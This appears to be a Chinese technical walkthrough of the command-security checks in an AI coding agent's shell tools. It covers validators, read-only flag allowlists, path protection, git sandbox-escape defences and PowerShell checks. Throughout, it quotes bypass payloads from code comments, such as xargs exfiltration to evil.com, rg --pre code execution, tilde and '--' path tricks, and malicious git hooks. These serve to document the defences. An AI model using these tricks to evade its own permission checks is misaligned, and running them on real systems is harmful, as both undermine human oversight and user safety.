

命令安全分析是 Shell 工具权限体系的"内容层"——权限模型（规则匹配、模式切换）解决的是"谁允许这条命令"，而命令安全分析解决的是"这条命令本身做了什么"。当 LLM 提交一条 `bash -c` 或 PowerShell 命令时，系统必须在毫秒级内回答三个问题：该命令是否包含可绕过解析器的混淆载荷（危险命令检测）；该命令是否严格只读（只读校验）；该命令触碰的文件路径是否在允许范围内（路径保护）。本文深入 `tools/BashTool/` 与 `tools/PowerShellTool/` 下的安全验证模块，剖析这套纵深防御体系的实现细节——包括 tree-sitter AST 解析与 legacy 正则路径的双轨架构、23 项安全验证器的编排顺序、声明式 flag 白名单，以及针对 git 沙箱逃逸的多重封堵。

Sources: [BashTool.tsx](tools/BashTool/BashTool.tsx#L434-L441), [bashPermissions.ts](tools/BashTool/bashPermissions.ts#L1663-L1667)

## 总体架构：四层防御的编排关系

命令安全分析并非单一大函数，而是由四组职责清晰的验证器组成，统一编排进 `bashToolHasPermission` 主流程。理解各层的输入输出契约是掌握整个体系的前提。



上图的每一层都遵循 **fail-closed 原则**：任何一层无法得出"安全"结论时，结果都是 `ask`（要求用户批准）或 `deny`（规则拒绝），绝不静默放行。`BashTool.isReadOnly` 将 `checkReadOnlyConstraints` 的结果直接映射为工具的并发安全标记，意味着只读判定同时决定了该命令能否与其他工具并行执行。

Sources: [BashTool.tsx](tools/BashTool/BashTool.tsx#L434-L441), [bashPermissions.ts](tools/BashTool/bashPermissions.ts#L1050-L1178)

## 入口编排：tree-sitter AST 与 Legacy 双轨解析

`bashToolHasPermission` 的第一步是一次性的 AST 安全解析，其产物驱动后续所有分支。tree-sitter 解析会产生三种互斥结果，每种对应不同的安全策略。

### AST 路径的三态分支

**`simple`**——命令被完全解析为 `SimpleCommand[]`（引号已消解、无隐藏替换），此时 `checkSemantics` 检查语义级危险（zsh 内建、eval 等），通过后子命令列表直接复用，跳过 legacy 路径的所有重复解析。**`too-complex`**——解析成功但发现无法静态分析的结构（命令替换、展开、控制流、解析器差分），此时仍先尊重显式 deny 规则（`checkEarlyExitDeny`——用户配置 `Bash(eval:*)` deny 时期望 `eval "rm"` 被阻止而非降级为 ask），然后直接返回 `ask`。**`parse-unavailable`**——tree-sitter WASM 未加载或特性门控关闭，回退到 legacy shell-quote 预检路径。

```typescript
// bashPermissions.ts L1670-1695（节选）
const injectionCheckDisabled = isEnvTruthy(
  process.env.CLAUDE_CODE_DISABLE_COMMAND_INJECTION_CHECK,
)
let astRoot = injectionCheckDisabled ? null : await parseCommandRaw(input.command)
let astResult: ParseForSecurityResult = astRoot
  ? parseForSecurityFromAst(input.command, astRoot)
  : { kind: 'parse-unavailable' }
```

值得注意的是 **shadow 观察模式**：当 `TREE_SITTER_BASH_SHADOW` 特性开启时，tree-sitter 的判定结果仅用于遥测（`tengu_tree_sitter_shadow` 事件记录 AST 不可用、too-complex、子命令分歧等指标），随后强制回退 legacy 路径保持权威性。这种渐进迁移策略允许在生产环境量化两种解析器的分歧率后再切换。

Sources: [bashPermissions.ts](tools/BashTool/bashPermissions.ts#L1663-L1827), [treeSitterAnalysis.ts](utils/bash/treeSitterAnalysis.ts#L1-L64)

### 子命令扇出上限

legacy `splitCommand` 路径存在子命令数量爆炸的可能（AST 路径返回有界列表）。`MAX_SUBCOMMANDS_FOR_SECURITY_CHECK` 上限封堵了这一拒绝服务向量：超限时记录调试日志并返回 `ask`，理由是"子命令过多无法逐一安全检查"。同时在 AST 可用时，每子命令的 `bashCommandIsSafeAsync` 重检被整体跳过——AST 已证明每个子命令无隐藏替换，重复检查纯属浪费。

Sources: [bashPermissions.ts](tools/BashTool/bashPermissions.ts#L2144-L2179), [bashPermissions.ts](tools/BashTool/bashPermissions.ts#L2338-L2367)

## 危险命令检测：bashSecurity.ts 验证器流水线

`bashSecurity.ts`（2593 行）是 Bash 侧的核心检测引擎。`bashCommandIsSafe_DEPRECATED`（命名表明其将被 AST 路径取代，但在 legacy 路径与只读校验中仍是权威实现）构建一个 `ValidationContext` 后依次运行验证器。

### 归一化上下文：字符级引号状态机

所有验证器消费的不是原始命令，而是 `extractQuotedContent` 产出的三种归一化视图。这是一个手工实现的字符级状态机，追踪单引号、双引号、反斜杠转义三种状态：

| 上下文字段 | 语义 | 典型消费者 |
|---|---|---|
| `withDoubleQuotes` | 移除单引号内容，保留双引号内容 | 元字符、替换模式检测 |
| `fullyUnquoted` | 移除所有引号内容（经 `stripSafeRedirections`） | 重定向、危险变量检测 |
| `fullyUnquotedPreStrip` | 未剥离安全重定向前的完全去引号版本 | 花括号展开检测 |
| `unquotedKeepQuoteChars` | 保留引号字符本身，仅剥离引号内内容 | mid-word `#` 检测 |

`stripSafeRedirections` 的实现细节展示了该代码库对安全边界的偏执：三个模式全部带 `(?=\s|$)` 尾部断言。缺少断言时，`echo hi > /dev/nullo` 会将 `> /dev/null` 作为前缀剥离、残留 `o`，导致重定向验证器看不到 `>` 从而放行对 `/dev/nullo` 的写入。注释明确指出主权限流程虽有 `checkPathConstraints` 兜底，但推测执行路径（`speculation.ts`）单独调用 `checkReadOnlyConstraints`，该断言是唯一防线。

Sources: [bashSecurity.ts](tools/BashTool/bashSecurity.ts#L103-L188)

### 验证器编排：早停与延迟的精妙平衡

验证器分为两个阶段，且第二阶段存在一个容易误读的**延迟返回机制**。早段验证器（`validateEmpty`、`validateIncompleteCommands`、`validateSafeCommandSubstitution`、`validateGitCommit`）允许 `allow` 短路返回 `passthrough`（如 `$(cat <<'EOF'...)` 安全 heredoc 模式）。

主验证器列表约 19 项，关键在于 **misparsing 与非 misparsing 的区分**。`isBashSecurityCheckForMisparsing` 标志标记"该 ask 源于解析器差分（校验器眼中的命令与 bash 实际执行的命令不一致）"——这类结果在上游 `bashPermissions` 的门控中会强制阻断。而非 misparsing 验证器（`validateNewlines`、`validateRedirections`——LF 换行与重定向是 `splitCommand` 能正确处理的正常模式）的 ask 结果若被立即返回，会**丢失后续 misparsing 验证器的捕获机会**：

```typescript
// bashSecurity.ts L2380-2407（节选，防御注释见原文）
// 若 validateRedirections（非 misparsing）先因 `>` 触发 ask 提前返回，
// validateBackslashEscapedOperators（misparsing）本可带标志捕获 `\;` 载荷。
// 修复：延迟非 misparsing 的 ask，继续运行；若有 misparsing 验证器触发
// 则返回后者（带标志）；仅当全部运行完无 misparsing 结果才返回延迟结果。
let deferredNonMisparsingResult: PermissionResult | null = null
for (const validator of validators) {
  const result = validator(context)
  if (result.behavior === 'ask') {
    if (nonMisparsingValidators.has(validator)) {
      if (deferredNonMisparsingResult === null) deferredNonMisparsingResult = result
      continue
    }
    return { ...result, isBashSecurityCheckForMisparsing: true as const }
  }
}
```

注释中的攻击示例极具教育意义：`cat safe.txt \; echo /etc/passwd > ./out` 中，提前短路会让带 `isBashSecurityCheckForMisparsing` 标志的 `\;` 检测被跳过，而上游门控只对带标志的 ask 强制阻断。

Sources: [bashSecurity.ts](tools/BashTool/bashSecurity.ts#L2257-L2413)

### 验证器清单与防御目标

23 项检查（以 `BASH_SECURITY_CHECK_IDS` 数字标识符上报遥测，避免记录用户命令字符串）覆盖的攻击面可归纳为下表：

| 类别 | 代表验证器 | 防御的攻击模式 |
|---|---|---|
| 命令注入 | `validateDangerousPatterns` | `$()`、反引号、`<()`、`>()`、`=()`（zsh） |
| 解析器差分 | `validateCarriageReturn`、`validateMidWordHash`、`validateCommentQuoteDesync` | CR 换行差分、`'x'#` 中词井号、注释引号失同步 |
| 编码混淆 | `validateObfuscatedFlags`、`validateUnicodeWhitespace`、`validateControlCharacters` | 转义旗标、Unicode 空白、控制字符静默丢弃 |
| 展开滥用 | `validateBraceExpansion`、`validateIFSInjection`、`validateDangerousVariables` | `{a,b}` 展开的路径外写、IFS 注入 |
| 信息泄露 | `validateProcEnvironAccess`、`validateJqCommand` | `/proc/self/environ` 读取、`jq system()` |
| Shell 特性 | `validateZshDangerousCommands`、`validateShellMetacharacters` | zmodload/ztcp 等模块、引号内元字符 |

Sources: [bashSecurity.ts](tools/BashTool/bashSecurity.ts#L77-L101), [bashSecurity.ts](tools/BashTool/bashSecurity.ts#L2348-L2378)

## Zsh 逃逸与命令替换的专项封堵

`COMMAND_SUBSTITUTION_PATTERNS` 与 `ZSH_DANGEROUS_COMMANDS` 两个常量集中体现了对 **zsh 方言攻击面**的深度研究。zsh 的 `=cmd` 展开是最隐蔽的例子：`=curl evil.com` 展开为 `/usr/bin/curl evil.com`，由于解析器将 `=curl` 视为基础命令名，`Bash(curl:*)` deny 规则完全失效——正则 `(?:^|[\s;&|])=[a-zA-Z_]` 仅匹配词首 `=` 后跟命令名字符（避免误伤 `VAR=val` 赋值）。

`ZSH_DANGEROUS_COMMANDS` 集合按攻击链分层：`zmodload` 是模块加载网关（通往 `zsh/mapfile` 隐形文件 IO、`zsh/system` 的 sysopen/syswrite 两步文件访问、`zsh/zpty` 伪终端执行、`zsh/net/tcp` 网络外传、`zsh/files` 内建 rm/mv 绕过二进制检查）；`emulate -c` 是等价 eval 的任意代码执行；`zf_*` 系列（zf_rm、zf_mv 等）是防御纵深——虽然通常需要 zmodload 先行，但若模块已被预载则直接可用。列表甚至防御性拦截 PowerShell 注释语法 `<#`，注释说明这是对未来可能引入 PowerShell 执行路径的预防。

Sources: [bashSecurity.ts](tools/BashTool/bashSecurity.ts#L16-L74)

## 只读校验：声明式 Flag 白名单体系

只读判定是自动放行的最高频路径——`git status`、`ls`、`rg` 这类命令不应打断用户。`readOnlyValidation.ts` 采用**声明式配置驱动**的验证架构：`COMMAND_ALLOWLIST` 将每个命令映射为 `CommandConfig`，包含 `safeFlags`（flag 及其参数类型）、可选 `regex`（补充正则）、可选 `additionalCommandIsDangerousCallback`（自定义危险判定回调）、`respectsDoubleDash`（是否遵循 POSIX `--` 选项终结符）。

### Flag 白名单中的安全取舍

配置注释记录了大量真实的取舍决策，每一条都对应一个可复现的攻击向量：

- **fd 的 `-x/--exec`、`-X/--exec-batch` 被刻意排除**——它们对每个搜索结果执行任意命令；`-l/--list-details` 同样排除，因其内部以子进程执行 `ls`，存在 PATH 劫持风险。
- **xargs 的 `-i`/`-e`（小写）被移除**——两者使用 GNU getopt 的可选附着参数语义（`i::`），参数必须附着（`-iX`）；空格分隔（`-i X`）时 flag 不取参、`X` 成为下一个位置参数即目标命令。注释给出完整攻击链：`echo /usr/sbin/sendm | xargs -it tail a@evil.com`——校验器认为 `-it` 皆为无参 flag、`tail` 属于安全目标命令，GNU 实际将 `t` 作为 replace-str 使目标变为 `/usr/sbin/sendmail` 造成网络外传。替代方案是校验器与 xargs 语义一致的 `-I {}` 与 POSIX 强制参数的 `-E EOF`。
- **tree 的 `-R` 被移除**——man 页揭示 `-R` 在最大深度处"重新执行 tree 并附加 `-o 00Tree.html`"，即硬编码文件写入；`tree -R -H . -L 2 /path` 会向每个子目录写入 `00Tree.html`。
- **date 仅允许显示选项**——`-s/--set` 设置系统时间；更隐蔽的是位置参数 `MMDDhhmm[[CC]YY][.ss]` 也能设置时间，故附加回调强制位置参数必须以 `+` 开头（格式串）。

Sources: [readOnlyValidation.ts](tools/BashTool/readOnlyValidation.ts#L34-L162), [readOnlyValidation.ts](tools/BashTool/readOnlyValidation.ts#L52-L123), [readOnlyValidation.ts](tools/BashTool/readOnlyValidation.ts#L646-L759)

### `$` Token 全局拒绝：解析器差分的终结

`isCommandSafeViaFlagParsing` 中最关键的一道检查对**命令前缀之后的任何 token 含 `$` 即拒绝**。注释完整推演了三种绕过场景，全部源于同一差分——`tryParseShellCommand` 的 `env => \`$${env}\`` 回调将 `$VAR` 保留为字面文本，而 bash 运行时将其展开（未定义变量展开为空串）：

1. `$VAR` 前缀绕过 `validateFlags` 的 `startsWith('-')` 检查：`git diff "$Z--output=/tmp/pwned"` 中 token `$Z--output=/tmp/pwned` 以 `$` 开头被当作位置参数放行，bash 实际执行 `git diff --output=/tmp/pwned`——任意文件写入零权限。
2. 单步 RCE：`rg . "$Z--pre=bash" FILE` 经 rg 的 `--pre` 执行 `bash FILE`。
3. `$VAR` 中缀绕过回调正则：`ps ax"$Z"e` 的 token `ax$Ze` 使 ps 回调的 `/^[a-zA-Z]*e[a-zA-Z]*$/` 判定"非危险"，bash 实际运行 `ps axe` 读取所有进程环境变量。

同一检查还拒绝同时含 `{` 与 `,`（或 `..`）的 token——这是花括号展开的混淆形态，与 `bashSecurity.ts` 的 `validateBraceExpansion` 形成纵深。判定规则刻意要求两者同时存在以避免误报：`stash@{0}`（git 引用，有 `{` 无 `,`）、`{{.State}}`（Go 模板，无 `,`）、`prefix-{}-suffix`（xargs 占位符，无 `,`）。

Sources: [readOnlyValidation.ts](tools/BashTool/readOnlyValidation.ts#L1328-L1369)

### git 专项：`-c`、`--exec-path` 与 `--config-env` 封堵

正则匹配路径（`READONLY_COMMAND_REGEXES`）上叠加三个 git 专项检查：`-c` 允许内联设置任意 git 配置（`core.fsmonitor`、`diff.external`、`core.gitProxy` 均可执行任意命令）；`--exec-path` 覆盖 git 可执行文件查找目录实现路径操纵；`--config-env` 从环境变量注入配置，与 `-c` 等危。`git ls-remote` 另有独立处理：拒绝任何含 `://`（HTTP/HTTPS URL）、`@` 或 `:`（SSH URL 形态如 `git@github.com:user/repo.git`）、`$`（变量引用）的非 flag 参数，防止数据外传通道。

Sources: [readOnlyValidation.ts](tools/BashTool/readOnlyValidation.ts#L1306-L1326), [readOnlyValidation.ts](tools/BashTool/readOnlyValidation.ts#L1710-L1751)

## 只读快捷路径的沙箱逃逸防御：git 攻击链封堵

`checkReadOnlyConstraints` 作为唯一导出的只读判定入口，在进入白名单校验前依次执行五道 git 相关的沙箱逃逸封堵。这些检查共同防御的攻击模型是：**恶意仓库目录中预置了伪造的 git 内部结构，诱导 git 执行恶意钩子**。

| 检查 | 触发条件 | 封堵的攻击 |
|---|---|---|
| UNC 路径 | `containsVulnerableUncPath(command)` | WebDAV 攻击窃取 NTLM 凭据 |
| cd + git 复合 | 复合命令同时含 `cd` 与 git | `cd /malicious/dir && git status`，恶意目录含伪造钩子 |
| 裸仓库检测 | git 命令且 `isCurrentDirectoryBareGitRepo()` | 攻击者删除 `.git/HEAD` 使 git 将 cwd 视为 git 目录并执行伪造 hooks |
| git 内部路径写入 | git 命令且 `commandWritesToGitInternalPaths(command)` | `mkdir -p hooks && echo 'malicious' > hooks/pre-commit && git status` |
| 沙箱 + cwd 漂移 | git + 沙箱启用 + `getCwd() !== getOriginalCwd()` | 竞态：沙箱内命令在子目录创建裸仓库文件后，后台化的 git 命令在文件存在前通过裸仓库检测 |

`GIT_INTERNAL_PATTERNS` 定义 git 内部路径为 `HEAD`、`objects/`、`refs/`、`hooks/` 四种形态；`commandWritesToGitInternalPaths` 不仅扫描 `PATH_EXTRACTORS` 提取的写入路径（仅限 write/create 操作类型且排除 rm/rmdir/sed 等非创建型命令），还扫描输出重定向目标（`echo x > hooks/pre-commit`）。这些防御同时被**上移到 `bashToolHasPermission` 复合命令层**（L2209-2225）执行——注释解释了原因：`bashToolCheckPermission` 对每个子命令独立调用 `BashTool.isReadOnly()`，单看 `git status` 会重新推导出 `compoundCommandHasCd=false`，绕过 `readOnlyValidation.ts` 中的对应检查。

最终放行条件是对**每个子命令**独立执行：`bashCommandIsSafe_DEPRECATED` 通过 **且** `isCommandReadOnly` 通过。缺一则整体回退 `passthrough` 进入常规权限流程。

Sources: [readOnlyValidation.ts](tools/BashTool/readOnlyValidation.ts#L1876-L1990), [readOnlyValidation.ts](tools/BashTool/readOnlyValidation.ts#L1766-L1864), [bashPermissions.ts](tools/BashTool/bashPermissions.ts#L2198-L2225)

## 路径保护：命令级提取与重定向验证

路径保护由 `pathValidation.ts`（BashTool 目录内）与 `utils/permissions/pathValidation.ts`（权限引擎通用层）两级构成。前者负责**从命令文本中提取路径**，后者负责**对已解析路径做权限判定**。

### PATH_EXTRACTORS：36 个命令的路径提取语义

`PathCommand` 联合类型覆盖 36 个常见命令，每个命令的路径提取语义各不相同：`cd` 将全部参数拼接为单一路径（无参数时默认 home）；`ls` 过滤 flag 后默认当前目录；grep/rg 类遵循"模式在前、路径在后"的 `parsePatternCommand` 语义（识别 `-e/--regexp/-f/--file` 等模式 flag，跳过需要参数的 flag）。提取器的正确性直接决定路径校验的覆盖面——提取遗漏即校验遗漏。

**POSIX `--` 终结符处理**是提取层的核心安全修复。`filterOutFlags` 的文档注释给出完整攻击载荷：`rm -- -/../.claude/settings.local.json`。朴素的 `!arg.startsWith('-')` 过滤会丢弃以 `-` 开头的 `-/../.claude/settings.local.json`，校验器看到零个路径返回 passthrough，文件被无提示删除。正确处理 `--` 后，该路径被提取并经 `isClaudeConfigFilePath`/`pathInAllowedWorkingPath` 阻断。

### 危险删除路径：rm/rmdir 的绝对禁区

`checkDangerousRemovalPaths` 对 rm/rmdir 目标执行 `isDangerousRemovalPath` 检查，命中即返回 `ask` 且 `suggestions: []`——注释明确说明不提供保存规则的建议以**不鼓励**持久化危险命令。危险路径判定（通用层实现）包括：

- 通配 `*` 或任何 `/*` 结尾的路径；
- 根目录 `/` 与 Windows 盘符根 `C:\`；
- 用户 home 目录 `~`；
- 根目录的直接子目录（`/usr`、`/tmp`、`/etc`——但不含 `/usr/local`）；
- Windows 盘符直接子目录（`C:\Windows`、`C:\Users`）。

实现细节同样考虑解析差分：路径先统一斜杠方向并折叠连续分隔符（`C:\\Windows` 在 PowerShell 中合法，不折叠会绕过盘符子目录检查）；并且**刻意不解析符号链接**——macOS 上 `/tmp` 是 `/private/tmp` 的符号链接，符号链接解析会使 `/tmp` 逃逸根目录直接子目录判定。

Sources: [pathValidation.ts](tools/BashTool/pathValidation.ts#L27-L139), [pathValidation.ts](tools/BashTool/pathValidation.ts#L65-L108), [pathValidation.ts](utils/permissions/pathValidation.ts#L321-L367)

### checkPathConstraints：重定向与 argv 级验证

`checkPathConstraints` 是路径保护的编排入口，其防御序列针对多个已知解析器缺陷：

**进程替换拦截**（L1028-1038）：`>(cmd)` 形态可执行向文件写入的命令而不使该文件表现为重定向目标——`echo secret > >(tee .git/config)` 中 tee 写入 `.git/config` 但不会被识别为重定向。正则 `>>\s*>\s*\(|>\s*>\s*\(|<\s*\(` 拦截（AST 路径无需此检查——`process_substitution` 属 DANGEROUS_TYPES，已在更早的 too-complex 分支拦截）。

**AST 重定向优先**（L1040-1048）：当 AST 派生的重定向可用时直接采用 `astRedirectsToOutputRedirections`，绕过 shell-quote 重新解析。注释记录了 shell-quote 的已知缺陷——单引号内反斜杠的错误处理会在**解析成功**（非解析失败，故 fail-closed 守卫无效）时将重定向操作符静默并入乱码 token。AST 目标已完全解析（无 shell 展开），`checkSemantics` 已验证，故 `hasDangerousRedirection` 恒为 false。`>&` 操作符的特殊处理体现了对 bash 语义的精确理解：`>&N`（纯数字）是 fd 复制（如 `2>&1`）而非文件写入；`>&file` 是 `&>file` 的废弃形式，按文件写入处理。

**argv 级命令迭代**（L1072-1102）：AST 可用时逐命令使用预解析 argv（`validateSinglePathCommandArgv`），避免 shell-quote 的单引号反斜杠缺陷导致 `parseCommandArguments` 静默返回空数组、路径校验被整体跳过。

Sources: [pathValidation.ts](tools/BashTool/pathValidation.ts#L1013-L1150)

### 通用路径判定链：isPathAllowed

提取并解析后，路径进入 `utils/permissions/pathValidation.ts` 的 `isPathAllowed` 判定链，按严格优先级排列：**deny 规则 → 内部可编辑路径 →（写操作）安全检查 → 工作目录 →（读操作）内部可读路径 →（写操作、目录外）沙箱写白名单 → allow 规则 → 拒绝**。排序注释解释了两处关键次序约束：内部可编辑路径检查必须先于 `checkPathSafetyForAutoEdit`（内部路径位于 `~/.claude/` 下，而 `.claude` 本身是危险目录）；安全检查必须先于工作目录检查（防止 acceptEdits 模式经工作目录绕过）。

`validatePath` 入口层另有两个入口级拦截：UNC 路径（`\\server\share` 触发网络请求并泄露 NTLM/Kerberos 凭据）直接拒绝要求手动批准；**tilde 变体拒绝**（`~user`、`~+`、`~-`、`~N`）封堵 TOCTOU 差分——`expandTilde` 仅处理 `~` 与 `~/`，`~root` 等保持字面文本被当作相对路径解析（校验 `/cwd/~root/.ssh/id_rsa`），而 shell 将其展开为 `/var/root/.ssh/id_rsa` 等真实路径执行。

Sources: [pathValidation.ts](utils/permissions/pathValidation.ts#L141-L263), [pathValidation.ts](utils/permissions/pathValidation.ts#L373-L399)

## 沙箱集成：判定入口与写白名单联动

沙箱并非独立子系统，而是深度织入命令安全分析的每个判定点。

### shouldUseSandbox：三重前置检查

`shouldUseSandbox` 的判定顺序是：沙箱全局禁用则否；`dangerouslyDisableSandbox` 显式覆盖**且策略允许未沙箱命令**则否（两个条件缺一不可——覆盖请求本身也要过策略）；命令包含用户排除命令则否。`SandboxManager.isSandboxingEnabled`（sandbox-adapter.ts）综合四个条件：平台支持（macOS/Linux/WSL2，WSL1 不支持）、依赖完整（macOS 需 sandbox 工具链，Linux 需 bubblewrap/socat）、平台在 `enabledPlatforms` 列表、用户 `sandbox.enabled` 设置。

`getSandboxUnavailableReason`（修复 #34044）解决了一个**安全哑火**问题：用户显式启用沙箱但依赖缺失时，`isSandboxingEnabled` 静默返回 false，用户配置的 `allowedDomains` 期待强制执行却得到零执行。该函数在启动时调用并向用户呈现原因——"sandbox.enabled is set but dependencies are missing… run /sandbox for details"。

### 排除命令的复合拆分与定点剥离

`containsExcludedCommand` 的文件头注释明确声明**排除命令是便利特性而非安全边界**——真正的安全控制是会提示用户的沙箱权限系统。实现上，复合命令（`docker ps && curl evil.com`）被拆分为子命令逐一比对，防止复合命令因首个子命令匹配排除模式而整体逃逸。比对采用**不动点迭代**剥离环境变量前缀与安全包装器：`timeout 300 FOO=bar bazel run` 这类交错模式需要迭代至不再产生新候选——单次组合式剥离会失败。每轮对每个候选拟应用 `stripAllLeadingEnvVars`（带 `BINARY_HIJACK_VARS` 启发式）与 `stripSafeWrappers`，新候选入队直至收敛，随后按 prefix/exact/wildcard 三种规则形态匹配。

Sources: [shouldUseSandbox.ts](tools/BashTool/shouldUseSandbox.ts#L18-L153), [sandbox-adapter.ts](utils/sandbox/sandbox-adapter.ts#L528-L592)

### 沙箱写白名单与路径判定的联动

`isPathInSandboxWriteAllowlist` 将沙箱配置（`getFsWriteConfig` 的 `allowOnly` 与 `denyWithinAllow`）转化为路径判定链的额外写许可——`echo foo > /tmp/claude/x.txt` 在 `/tmp/claude/` 已在沙箱白名单时不再弹权限框。两个实现细节值得注意：**符号链接对称解析**——白名单条目若为符号链接（`/home/user/proj -> /data/proj`），未解析将匹配不到对其真实目标的写入（过度保守而非安全问题）；**deny-within-allow 优先**——`denyWithinAllow` 中的路径（如 `.claude/settings.json`）即使父目录在 `allowOnly` 也被阻断。沙箱配置路径在会话内稳定，故用 memoize 缓存其解析结果，避免每条含 N 个写入目标的命令产生 N × config.length 次冗余系统调用。判定链中该检查被刻意限定于**工作目录之外的写操作**（步骤 3.7）：沙箱白名单总是种子化 `.`（cwd），不排除会绕过 acceptEdits 门控（步骤 3 处理工作目录内写入）。

沙箱状态还参与只读校验的 git 封堵（前述"沙箱 + cwd 漂移"检查），形成沙箱与静态分析的双向联动。

Sources: [pathValidation.ts](utils/permissions/pathValidation.ts#L91-L128), [pathValidation.ts](utils/permissions/pathValidation.ts#L225-L245)

## PowerShell 侧镜像：AST 原生的安全验证

PowerShell 工具实现了与 Bash 侧同构但 **AST 原生**（无 legacy 正则路径）的安全验证。`powershellCommandIsSafe` 的设计哲学差异显著：解析失败（`parsed.valid === false`）时所有检查都不匹配，直接返回 `ask` 作为安全默认——没有正则兜底。

### 23 项 AST 验证器

验证器数组覆盖 PowerShell 特有攻击面：`checkInvokeExpression`（iex 等价 eval）、`checkDynamicCommandName`（命令名本身为表达式的动态调用）、`checkEncodedCommand`（`-enc` Base64 编码载荷）、`checkDownloadCradles`/`checkDownloadUtilities`（下载 cradle 模式）、`checkComObject`（COM 对象滥用）、`checkAddType`（内联 C# 编译）、`checkScriptBlockInjection`（脚本块注入）、`checkStopParsing`（`--%` 原样传参符号）等。

**替代连字符防御**（`PS_ALT_PARAM_PREFIXES`）是极具平台特色的细节：PowerShell 分词器接受四种非 ASCII 连字符（en-dash U+2013、em-dash U+2014、horizontal bar U+2015）及 Windows PowerShell 5.1 的 `/` 作为参数前缀等价物。`Start-Process foo –Verb RunAs`（en-dash）曾绕过 `checkStartProcess` 的提权参数检测——`psExeHasParamAbbreviation` 将替代前缀归一化为 `-` 后重检。

### 运行时状态操纵与 WMI 进程生成

`checkRuntimeStateManipulation` 封堵无法静态验证的**会话状态污染**：`Set-Alias Get-Content Invoke-Expression` 之后任何 `Get-Content $x` 都执行任意代码；`Set-Variable PSDefaultParameterValues @{'*:Path'='/etc/passwd'}` 改变后续所有 cmdlet 行为。两者都需要追踪会话内所有未来的命令解析，故策略为永远 ask。`checkWmiProcessSpawn`（安全发现 #34）封堵 `Invoke-WmiMethod -Class Win32_Process -Name Create` 这一 Start-Process 等价物——`-Class` 与 `-MethodName` 接受任意字符串，仅针对 Win32_Process 加门会漏掉 `-Class $x` 等动态形式，故任何调用均 ask。

### 危险 cmdlet 分类学与同步约束

`dangerousCmdlets.ts` 将危险 cmdlet 分为七类并在注释中说明**同步约束**：`ARG_GATED_CMDLETS` 必须覆盖 `readOnlyValidation.ts` 中所有带 `additionalCommandIsDangerousCallback` 的条目（测试断言保证）——这些 cmdlet 对安全参数自动放行，权限对话框仅在回调拒绝时触发；此时若用户接受 `Cmdlet:*` 通配规则，前缀 startsWith 匹配将**永久绕过回调**，`ForEach-Object:*` 会使 `ForEach-Object { Remove-Item -Recurse / }` 自动放行。

只读判定 `isReadOnlyCommand` 拒绝七类安全旗标（脚本块、子表达式、可展开字符串、splatting、成员调用、赋值、stop-parsing——`Get-Process | ForEach-Object { Remove-Item C:\foo }` 表面是安全管道实为破坏性载荷），拒绝非 `$null` 的文件重定向，并实施**cd 复合泛化封堵**（发现 #27）：任何含 cwd 变更 cmdlet 的复合命令不得自动归类只读，因为相对路径在验证时（陈旧 cwd）与运行时（已变更 cwd）解析结果不同——`Set-Location ~; Get-Content ./.ssh/id_rsa` 中两个 cmdlet 都在白名单，无此守卫将自动放行并绕过任何 `Read(~/.ssh/**)` deny 规则。`hasSyncSecurityConcerns` 提供同步正则预过滤，镜像 Bash 侧 `checkReadOnlyConstraints` 先查 `bashCommandIsSafe_DEPRECATED` 的模式。

Sources: [powershellSecurity.ts](tools/PowerShellTool/powershellSecurity.ts#L1-L100), [powershellSecurity.ts](tools/PowerShellTool/powershellSecurity.ts#L962-L1091), [dangerousCmdlets.ts](utils/powershell/dangerousCmdlets.ts#L1-L149), [readOnlyValidation.ts](tools/PowerShellTool/readOnlyValidation.ts#L1103-L1260)

## 权限规则与危险模式：允许规则本身的风险

命令安全分析不仅审查命令，还审查**用户保存的权限规则**。`utils/permissions/dangerousPatterns.ts` 定义"危险允许规则前缀"——`Bash(python:*)` 或 `PowerShell(node:*)` 这类规则让模型经解释器运行任意代码、绕过自动模式分类器，进入 auto 模式时这些规则会被剥离。`CROSS_PLATFORM_CODE_EXEC` 列出跨平台代码执行入口（python/node/ruby/perl/php/lua 解释器、npx/bunx/npm run 等包运行器、bash/sh/ssh）；ant 内部用户追加实证风险条目（`gh api` 任意 HTTP、curl/wget POST、`git config core.sshCommand` 即任意代码、kubectl/aws 云资源写入）。`checkPermissionMode`（modeValidation.ts）则实现 acceptEdits 模式对 `mkdir/touch/rm/rmdir/mv/cp/sed` 七个文件系统命令的自动放行。

信息层方面，`destructiveCommandWarning.ts` 提供**纯展示性**警告（文件头强调"不影响权限逻辑与自动批准"）：`git reset --hard`（丢弃未提交变更）、`git push --force`（覆盖远程历史）、`git clean -f`（永久删除未跟踪文件，正则以负向前瞻排除 `-n/--dry-run`）、`DROP TABLE`/`TRUNCATE`/`DELETE FROM`（数据库破坏）、`kubectl delete`/`terraform destroy`（基础设施摧毁）及 `rm -r/-f` 各变体。这些警告在权限对话框中辅助用户决策，但不改变判定结果。sed 体系另有两层独立实现：`sedEditParser.ts` 将 `sed -i 's/pat/rep/flags' file` 解析为文件编辑信息以 UI 化渲染；`sedValidation.ts` 的行打印白名单仅放行 `-n` 加严格打印表达式（`1p;2p;3p` 分号序列形态）。

